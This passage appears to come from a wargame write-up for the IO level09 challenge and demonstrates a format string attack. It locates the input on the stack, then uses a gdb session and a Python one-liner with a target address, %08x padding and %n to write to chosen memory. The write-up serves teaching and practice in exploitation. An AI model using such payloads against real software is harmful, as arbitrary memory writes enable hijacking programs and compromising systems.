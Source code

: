 So we write AAAA at the start of the buffer and we see 41414141 show up after the first three dwords on the stack. If we specify an address using those four bytes instead of putting AAAA, put some junk format parameters in our buffer to move past the first three dwords on the stack (bffffe70, 000003ff, and 00160d7c) and put a `%n` on the end of our buffer, we can see that we write the number of bytes printed to the address we specified.
```
level9@io:/levels$ gdb level09

... snip ...

(gdb) break *0x080483e9 # Break on printf call
Breakpoint 1 at 0x80483e9
(gdb) x/20xw $esp
0xbffff880: 0xbffff890  0xbffffe7f  0x000003ff  0x00160d7c
0xbffff890: 0x41414141  0x00000000  0x00000000  0x00000000
0xbffff8a0: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff8b0: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff8c0: 0x00000000  0x00000000  0x00000000  0x00000000
(gdb) run $(python -c 'print "\xc0\xf8\xff\xbf" + "%08x"*3 + "%n"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /levels/level09 $(python -c 'print "\xc0\xf8\xff\xbf" + "%08x"*3 + "%n"')

Breakpoint 1, 0x080483e9 in main ()
1: x/10i $eip
=> 0x80483e9 <main+69>: call   0x80482ec <printf@plt>
   0x80483ee <main+74>: mov    eax,0x0
   0x80483f3 <main+79>: leave  
   0x80483f4 <main+80>: ret    
   0x80483f5:   nop
   0x80483f6:   nop
   0x80483f7:   nop
   0x80483f8:   nop
   0x80483f9:   nop
   0x80483fa:   nop
(gdb) x/xw 0xbffff8c0
0xbffff8c0:  0x00000000
(gdb) ni
0x080483ee in main ()
1: x/10i $eip
=> 0x80483ee <main+74>: mov    eax,0x0
   0x80483f3 <main+79>: leave  
   0x80483f4 <main+80>: ret    
   0x80483f5:   nop
   0x80483f6:   nop
   0x80483f7:   nop
   0x80483f8:   nop
   0x80483f9:   nop
   0x80483fa:   nop
   0x80483fb:   nop
(gdb) x/xw 0xbffff8c0
0xbffff8c0:   0x0000001c
```
